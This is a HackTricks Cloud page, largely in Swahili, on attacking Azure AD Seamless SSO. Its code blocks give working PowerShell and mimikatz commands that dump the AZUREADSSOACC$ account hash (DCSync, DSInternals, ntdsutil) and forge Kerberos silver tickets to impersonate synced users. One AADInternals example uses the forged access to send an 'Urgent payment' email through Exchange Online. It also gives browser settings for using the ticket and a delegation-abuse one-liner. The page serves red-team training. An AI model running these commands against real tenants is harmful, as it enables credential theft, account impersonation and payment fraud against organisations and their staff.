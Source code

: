 # Az - Seamless SSO

{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwenye nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) inawaingiza watumiaji **moja kwa moja wanapokuwa kwenye vifaa vyao vya kampuni** vilivyounganishwa na mtandao wa kampuni. Inapowezeshwa, **watumiaji hawahitaji kuandika nywila zao ili kuingia kwenye Azure AD**, na mara nyingi, hata kuandika majina yao ya mtumiaji. Kipengele hiki kinawapa watumiaji wako ufikiaji rahisi wa programu zako za msingi wa wingu bila kuhitaji vipengele vya ziada vya ndani.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Kimsingi Azure AD Seamless SSO **inawaingiza watumiaji** wanapokuwa **kwenye PC iliyounganishwa na domain ya ndani**.

Inasaidiwa na [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) na [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO inatumia **Kerberos** kwa uthibitishaji. Inaposanidiwa, Azure AD Connect inaunda **akaunti ya kompyuta inayoitwa AZUREADSSOACC`$`** kwenye AD ya ndani. Nywila ya akaunti ya `AZUREADSSOACC$` **inatumwa kama maandishi wazi kwa Azure AD** wakati wa usanidi.

**Tiketi za Kerberos** **zinafichwa** kwa kutumia **NTHash (MD4)** ya nywila na Azure AD inatumia nywila iliyotumwa kufungua tiketi.

**Azure AD** inatoa **endpoint** (https://autologon.microsoftazuread-sso.com) inayokubali **tiketi za Kerberos**. Kivinjari cha mashine iliyounganishwa na domain kinapeleka tiketi hizi kwa endpoint hii kwa SSO.

### On-prem -> wingu

**Nywila** ya mtumiaji **`AZUREADSSOACC$` haibadiliki kamwe**. Kwa hivyo, msimamizi wa domain anaweza kuathiri **hash ya akaunti hii**, na kisha kuitumia **kuunda tiketi za fedha** kuunganishwa na Azure na **mtumiaji yeyote wa ndani aliyesawazishwa**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Kwa kutumia hash sasa unaweza **kuzalisha tiketi za fedha**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Ili kutumia tiketi ya fedha, hatua zifuatazo zinapaswa kutekelezwa:

1. **Anzisha Kivinjari:** Mozilla Firefox inapaswa kuzinduliwa.
2. **Sanidi Kivinjari:**
* Nenda kwa **`about:config`**.
* Weka upendeleo wa [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) kwa [maadili](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) yaliyotajwa:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Fikia Programu ya Wavuti:**
* Tembelea programu ya wavuti ambayo imeunganishwa na kikoa cha AAD cha shirika. Mfano wa kawaida ni [Office 365](https://portal.office.com/).
4. **Mchakato wa Uthibitishaji:**
* Kwenye skrini ya kuingia, jina la mtumiaji linapaswa kuingizwa, ukiacha sehemu ya nenosiri tupu.
* Ili kuendelea, bonyeza TAB au ENTER.

{% hint style="success" %}
Hii haipiti MFA ikiwa imewezeshwa
{% endhint %}

#### ~~Kuunda tiketi za Kerberos kwa watumiaji wa wingu pekee~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ikiwa wasimamizi wa Active Directory wana ufikiaji wa Azure AD Connect, wanaweza **kusanidi SID kwa mtumiaji yeyote wa wingu**. Kwa njia hii tiketi za Kerberos **zinaweza kuundwa pia kwa watumiaji wa wingu pekee**. Sharti pekee ni kwamba SID ni [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) sahihi.

{% hint style="danger" %}
Kubadilisha SID ya watumiaji wa wingu pekee wa admin sasa **kumezuiwa na Microsoft**.\
Kwa maelezo angalia [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wingu kupitia Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Mtu yeyote anayeweza kusimamia akaunti za kompyuta (`AZUREADSSOACC$`) kwenye kontena au OU akaunti hii ipo, anaweza **kusanidi resource based constrained delegation juu ya akaunti na kuifikia**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Marejeo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
